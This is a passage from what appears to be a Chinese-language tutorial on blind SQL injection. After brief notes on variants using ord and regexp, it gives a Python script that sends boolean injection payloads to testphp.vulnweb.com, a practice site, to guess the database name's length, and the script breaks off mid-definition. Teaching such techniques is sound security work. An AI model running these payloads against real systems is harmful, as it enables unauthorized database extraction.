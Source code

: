阿斯克码表：

<img src=".\图片\v2-99d2c2240b51e0dc2772927113111992_b.png" alt="v2-99d2c2240b51e0dc2772927113111992_b"  />

### 版本二

与版本一类似，就是用 `ord` 函数替换 `ascii` 函数

### 版本三

正则匹配  `regexp()` 函数

```python
import requests
import string

url0 = "http://testphp.vulnweb.com/artists.php"

def getlength():
   length = 0
   paylaod = "database()"
   for len in range(1, 99):
     exp = f"?artist=1 and if(length({paylaod})={len},1,0)=1"
     url = url0 + exp
     r = requests.get(url)
     if "artist: r4w8173" in r.text:
         print(len)

def getdata():
```